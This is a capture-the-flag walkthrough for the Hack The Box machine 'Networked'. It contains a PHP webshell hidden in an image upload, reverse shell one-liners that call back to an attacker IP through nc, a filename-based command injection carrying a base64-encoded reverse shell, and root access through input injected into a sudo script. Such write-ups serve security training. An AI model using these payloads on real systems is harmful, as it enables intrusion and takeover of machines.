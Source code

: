 # 🧠 HTB: Networked

## 📦 Box Info
- **OS**: Linux (CentOS 7)
- **Difficulty**: Easy
- **Vector**: Web Upload → Cron Command Injection → Network Script Abuse

---

## 🔍 Recon

### Nmap

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.146
nmap -p 80,22,443 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.146
```

- **Ports open**:
  - [22](SSH) → OpenSSH 7.4
  - [80](HTTP) → Apache 2.4.6 (PHP 5.4.16)
  - 443 → Closed

---

## 🌐 Web Enumeration

### Gobuster / Dirsearch

```bash
dirsearch -u http://10.10.10.146
```

Found:
- `/upload.php`
- `/uploads/`
- `/backup/`
- `/index.php`
- `/backup/backup.tar` → Contains source code

---

## 🔬 Source Code Analysis (from `backup.tar`)

### Key Points from `upload.php` & `lib.php`:
- Only allows `.jpg`, `.png`, `.gif`, `.jpeg`
- Uses `check_file_type()` to validate MIME
- Uses `getnameUpload()` to extract extension after first `.`
- The server treats `something.php.png` as executable PHP due to Apache misconfig:

```apacheconf
AddHandler php5-script .php
```

---

## 💥 Exploitation: Webshell as Apache

### 🐚 Create Malicious File

Append PHP to an image:
```bash
echo "<?php system(\$_GET['cmd']); ?>" >> shell.png
mv shell.png shell.php.png
```

### 🐱 Upload Webshell

Go to:
```
http://10.10.10.146/upload.php
```

### 🐚 Reverse Shell Payload

Start listener:
```bash
nc -lnvp 443
```

Trigger reverse shell:
```
http://10.10.10.146/uploads/10_10_14_5.php.png?cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 443 >/tmp/f
```

Shell as:
```bash
id
uid=48(apache) gid=48(apache)
```

---

## 🔼 PrivEsc: Apache → Guly

### 🧹 Exploit `check_attack.php` via Cron

File:
```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

Exploit with a filename:
```bash
touch "/var/www/html/uploads/a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg== | base64 -d | sh; b"
```

(Decoded: `nc -e /bin/bash 10.10.14.7 443`)

### 🧠 Wait for Cron

Listener:
```bash
nc -lnvp 443
```

Shell as:
```bash
id
uid=1000(guly) gid=1000(guly)
```

✅ Grab `user.txt`

---

## 🔼 PrivEsc: Guly → Root

### 🔧 Sudo Permission

```bash
sudo -l
```

Allowed:
```
/usr/local/sbin/changename.sh
```

Script writes a config and calls `ifup`:

```bash
echo "interface PROXY_METHOD:" ; read x
echo $x >> /etc/sysconfig/network-scripts/ifcfg-guly
```

If input includes a space, code after it is executed.

### 💥 Exploit

```bash
sudo /usr/local/sbin/changename.sh
```

Inputs:
```
NAME: test
PROXY_METHOD: a /bin/bash
BROWSER_ONLY: b
BOOTPROTO: c
```

Root shell:
```bash
id
uid=0(root) gid=0(root)
```

✅ Grab `root.txt`

---

## 🔎 Beyond Root: Apache Misconfig

```apacheconf
AddHandler php5-script .php
```

🛑 This causes `.php.*` to be interpreted as PHP.

---

Let me know if you want a downloadable version (PDF/Markdown) or want this organized for a Notion/Obsidian vault ⚡